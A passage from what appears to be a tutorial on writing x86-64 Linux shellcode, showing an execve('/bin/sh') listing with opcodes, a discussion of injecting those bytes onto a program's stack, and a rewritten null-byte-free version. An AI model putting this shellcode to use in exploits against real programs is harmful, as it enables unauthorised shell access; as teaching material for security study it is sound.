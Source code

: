 Storing the above code in file `shellcode.asm` we can compile the code using the following command: `yasm dwarf2 -f elf64 shellcode.asm -l shellcode.lst` 

The command (`dwarf2` is a debugging standard) creates the corresponding listing (`.lst`) file that contains the corresponding opcodes:

```
     1                                 %line 1+1 shellcode.asm
     2                                 [section .data]
     3                                 
     4                                 NULL equ 0
     5 00000000 2F62696E2F736800       shell db "/bin/sh", NULL
     6                                 
     7                                 [section .text]
     8                                 [global _start]
     9                                 _start:
    10 00000000 48C7C03B000000          mov rax, 59
    11 00000007 48C7C7[00000000]        mov rdi, shell
    12 0000000E 0F05                    syscall
```
In the left column there are the line numbers, in the second column the relative memory addresses and in the third column the op-codes.

One can now use the linker command `ld -o shellcode shellcode.o` to create an executable, and test, if the code behaves as expected.

If we could now manage to to somehow push the op-codes onto the stack of an arbitrary program on the processor and make the instruction pointer point to the beginning the opcodes, the process would turn into a shell.

Entering the op-codes into a program (e.g., as a console input) poses a set of problems:
- If a hex value is not a character, we have problem entering the corresponding hex-code. In a shell we can use `<ctrl>-<shift>-u 0 0 41` to enter hex-codes (the example corresponds to the letter `A`).
- The method to enter hex-codes in a shell works for most of the bytes except the `NULL` byte, i.e. `0x00`, since it is a non-printable ASCII character used to mark the end of a string and can thus not be entered as part of a string.
- Last but not least, entering relative addresses, such as `[00000000]`, would not make sense to inject into a program.

In order to address these challenges, we modify our shellcode as follows:
- To avoid having to fill NULL-bytes when entering `59` into `rax`, first zero-out `rax` by xor-ing it with itself, thereby filling `rax` with zeros. Then fill `59` into `al` (the lower bytes of the register `rax`).
- The string (`/bin/sh`) can be pushed on the stack and `rsp` can be used as a pointer to the string's address.
- Since a push requires 8 bytes, but `/bin/sh` is only 7 bytes long, we extend the string with a leading `/`, so we push the string `//bin/sh`.
- Since the architecture is little-endian we have to make ensure that the string starts in low memory, i.e., we have to provide the string backwards.

The modified assembly code thus becomes:
```
section .text
global _start
_start:
	xor		rax, rax
	push	rax
	mov		rbx, 0x68732f6e69622f2f
	push	rbx
	mov		al, 59
	mov		rdi, rsp
	syscall
```
